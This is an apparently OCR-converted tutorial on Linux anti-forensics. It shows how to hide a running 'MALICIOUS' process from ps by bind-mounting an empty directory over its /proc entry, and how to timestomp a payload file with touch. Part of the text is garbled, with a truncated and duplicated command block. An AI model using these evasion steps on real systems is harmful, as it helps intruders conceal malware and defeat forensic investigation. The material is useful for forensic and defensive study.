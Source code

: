 ## Slash Proc Magic

Victim Host:

```sh
./MALICIOUS &
```

Using a process listing with ps, we can easily find the process, which would probably be noticed relatively quickly in a forensic investigation:

```sh
ps aux | grep MALICIOUS
root     22665  0.1  0.3 709792  5520 [..] ./MALICIOUS
root     22710  0.0  0.0 112808   968 [..] grep --color=auto M```sh
./MALICIOUS &
```

Using a process listing with ps, we can easily find the process, which would probably be noticed relatively quickly in a forensic investigation:

```sh
ps aux ps aux | grep MALICIOUS
root     22665  0.1  0.3 709792  5520 [..] ./MALICIOUS
root     22710  0.0  0.0 112808   968 [..] grep --color=auto MALICIOUS
```

Creating the bind mount:

```sh
# This command creates a directory named spoof with a subdirectory fd
mkdir -p spoof/fd;
# This command mounts the spoof directory onto the /proc/[pid] directory. By doing this, it tricks the system into displaying the contents of the spoof directory when someone accesses the /proc/[pid] directory. By someone, we mean, for example, a tool like ps that relies heavily on the /proc/ directory to generate output (see the section strace (ps deep-dive), where we examine how the ps command works and why we can hide our binary in this simple way
mount -o bind spoof /proc/22665;
```

Search for process again:

```sh
ps aux | grep MALICIOUS
```

By leveraging bind mounts to overlay a /proc/ directory, we demonstrated how a process can seemingly vanish from process listings while maintaining its functionality.

## Linux Timestomping

Timestomping is an anti-forensics technique which is used to modify the timestamps of a file, often to mimic files that are in the same folder.

Set the last access time of file1 to January 02 15:45 of current year. It’s format is MMDDHHMM.

```sh
$ touch -c -a 01021545 payload.elf
```
